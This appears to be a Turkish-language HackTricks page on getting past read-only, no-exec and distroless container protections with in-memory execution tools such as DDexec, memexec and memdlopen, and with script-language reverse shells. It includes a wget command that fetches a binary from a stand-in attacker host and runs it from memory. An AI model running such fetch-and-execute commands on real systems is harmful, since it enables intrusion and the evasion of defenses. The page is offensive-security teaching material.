 # FS korumalarını aşma: yalnızca okunabilir / çalıştırılamaz / Distroless

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Eğer **hacking kariyeri** ile ilgileniyorsanız ve hacklenemez olanı hack etmek istiyorsanız - **işe alıyoruz!** (_akıcı Lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videolar

Aşağıdaki videolarda bu sayfada bahsedilen teknikleri daha derinlemesine bulabilirsiniz:

* [**DEF CON 31 - Linux Bellek Manipülasyonu ile Gizlilik ve Kaçış**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng ile Gizli Sızmalar & Bellek İçi dlopen() - HackTricks Takip 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## yalnızca okunabilir / çalıştırılamaz senaryo

Linux makinelerinin **yalnızca okunabilir (ro) dosya sistemi koruması** ile monte edilmesi giderek daha yaygın hale geliyor, özellikle konteynerlerde. Bunun nedeni, ro dosya sistemi ile bir konteyner çalıştırmanın **`readOnlyRootFilesystem: true`** ayarını `securitycontext` içinde ayarlamak kadar kolay olmasıdır:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Ancak, dosya sistemi ro olarak monte edilse bile, **`/dev/shm`** hala yazılabilir olacak, bu nedenle diske hiçbir şey yazamayacağımız yalan. Ancak, bu klasör **çalıştırılamaz koruma ile monte edilecektir**, bu nedenle burada bir ikili dosya indirirseniz **onu çalıştıramayacaksınız**.

{% hint style="warning" %}
Kırmızı takım perspektifinden, bu, sistemde zaten olmayan ikili dosyaları **indirmek ve çalıştırmak** için **zorlaştırıyor** (örneğin arka kapılar veya `kubectl` gibi sayıcılar).
{% endhint %}

## En Kolay Aşma: Scriptler

İkili dosyalardan bahsettiğimi unutmayın, eğer yorumlayıcı makine içinde mevcutsa, **herhangi bir scripti** çalıştırabilirsiniz, örneğin `sh` mevcutsa bir **shell scripti** veya `python` yüklüyse bir **python scripti**.

Ancak, bu yalnızca ikili arka kapınızı veya çalıştırmanız gereken diğer ikili araçları çalıştırmak için yeterli değildir.

## Bellek Aşmaları

Bir ikili dosyayı çalıştırmak istiyorsanız ancak dosya sistemi buna izin vermiyorsa, bunu **bellekten çalıştırarak** yapmak en iyi yoldur, çünkü **korumalar burada geçerli değildir**.

### FD + exec syscall aşması

Makine içinde bazı güçlü script motorlarına sahipseniz, örneğin **Python**, **Perl** veya **Ruby**, ikili dosyayı bellekte çalıştırmak için indirebilir, bunu bir bellek dosya tanımlayıcısında (`create_memfd` syscall) saklayabilir, bu korumalardan etkilenmeyecek ve ardından **`exec` syscall** çağrısı yaparak **fd'yi çalıştırılacak dosya olarak belirtebilirsiniz**.

Bunun için [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) projesini kolayca kullanabilirsiniz. Bir ikili dosya geçirebilir ve belirtilen dilde **ikili dosya sıkıştırılmış ve b64 kodlanmış** bir script oluşturur, ardından **bunu çözmek ve açmak için** `create_memfd` syscall'ını çağırarak oluşturulan bir **fd** içinde ve çalıştırmak için **exec** syscall'ına bir çağrı yapar.

{% hint style="warning" %}
Bu, PHP veya Node gibi diğer script dillerinde çalışmaz çünkü bunların bir scriptten **ham syscall'ları çağırmanın varsayılan bir yolu yoktur**, bu nedenle ikili dosyayı saklamak için **bellek fd'si** oluşturmak için `create_memfd` çağrısı yapmak mümkün değildir.

Ayrıca, `/dev/shm` içinde bir dosya ile **normal bir fd** oluşturmak işe yaramaz, çünkü **çalıştırılamaz koruma** uygulanacağı için bunu çalıştırmanıza izin verilmeyecektir.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) tekniği, kendi sürecinizin belleğini **`/proc/self/mem`** üzerinden yazma ile **değiştirmenizi** sağlar.

Bu nedenle, sürecin yürüttüğü **montaj kodunu kontrol ederek**, bir **shellcode** yazabilir ve süreci **herhangi bir keyfi kodu çalıştıracak şekilde "mutasyona uğratabilirsiniz"**.

{% hint style="success" %}
**DDexec / EverythingExec**, kendi **shellcode'unuzu** veya **herhangi bir ikili dosyayı** **bellekten** yükleyip **çalıştırmanıza** olanak tanır.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Daha fazla bilgi için bu tekniği kontrol edin Github veya:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) DDexec'in doğal bir sonraki adımıdır. Bu, **DDexec shellcode demonize edilmiştir**, böylece her seferinde **farklı bir ikili dosya çalıştırmak istediğinizde** DDexec'i yeniden başlatmanıza gerek yoktur, sadece memexec shellcode'u DDexec tekniği aracılığıyla çalıştırabilir ve ardından **yeni ikili dosyaları yüklemek ve çalıştırmak için bu demon ile iletişim kurabilirsiniz**.

**Memexec'i bir PHP ters shell'den ikili dosyaları çalıştırmak için nasıl kullanacağınızla ilgili bir örneği** [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) adresinde bulabilirsiniz.

### Memdlopen

DDexec ile benzer bir amaca sahip olan [**memdlopen**](https://github.com/arget13/memdlopen) tekniği, ikili dosyaları **hafızaya yüklemenin daha kolay bir yolunu** sağlar ve daha sonra bunları çalıştırmanıza olanak tanır. Hatta bağımlılıkları olan ikili dosyaları yüklemeye bile izin verebilir.

## Distroless Bypass

### Distroless nedir

Distroless konteynerler, belirli bir uygulama veya hizmeti çalıştırmak için gerekli olan **en az gerekli bileşenleri** içerir, örneğin kütüphaneler ve çalışma zamanı bağımlılıkları, ancak paket yöneticisi, shell veya sistem yardımcı programları gibi daha büyük bileşenleri hariç tutar.

Distroless konteynerlerin amacı, **gereksiz bileşenleri ortadan kaldırarak konteynerlerin saldırı yüzeyini azaltmak** ve istismar edilebilecek zafiyet sayısını en aza indirmektir.

### Ters Shell

Bir distroless konteynerde **normal bir shell almak için `sh` veya `bash`** bile bulamayabilirsiniz. Ayrıca `ls`, `whoami`, `id` gibi ikili dosyaları da bulamayacaksınız... genellikle bir sistemde çalıştırdığınız her şey.

{% hint style="warning" %}
Bu nedenle, **ters shell** almanız veya sistemi **listelemeniz** mümkün **olmayacaktır**.
{% endhint %}

Ancak, eğer ele geçirilmiş konteyner örneğin bir flask web çalıştırıyorsa, o zaman python yüklüdür ve bu nedenle bir **Python ters shell** alabilirsiniz. Eğer node çalıştırıyorsa, bir Node rev shell alabilirsiniz ve çoğu **betik dili** ile aynı durum geçerlidir.

{% hint style="success" %}
Betik dilini kullanarak **sistemi listeleyebilirsiniz**.
{% endhint %}

Eğer **`read-only/no-exec`** korumaları yoksa, ters shell'inizi kullanarak **dosya sistemine ikili dosyalarınızı yazabilir** ve **çalıştırabilirsiniz**.

{% hint style="success" %}
Ancak, bu tür konteynerlerde bu korumalar genellikle mevcut olacaktır, ancak **önceki bellek yürütme tekniklerini kullanarak bunları aşabilirsiniz**.
{% endhint %}

**Bazı RCE zafiyetlerini istismar ederek betik dillerinden **ters shell'ler** almak ve hafızadan ikili dosyaları çalıştırmak için **örnekleri** [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) adresinde bulabilirsiniz.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Hacking kariyerine** ilgi duyuyorsanız ve hacklenemez olanı hacklemek istiyorsanız - **işe alıyoruz!** (_akıcı lehçe yazılı ve sözlü gereklidir_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
